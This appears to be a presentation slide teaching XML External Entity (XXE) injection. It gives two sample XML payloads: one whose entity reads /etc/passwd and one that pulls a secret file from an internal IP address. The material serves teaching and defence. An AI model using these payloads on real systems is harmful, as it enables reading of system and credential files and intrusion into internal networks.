

# XXE Example #2: File Injection
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://192.168.0.1/secret.txt" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>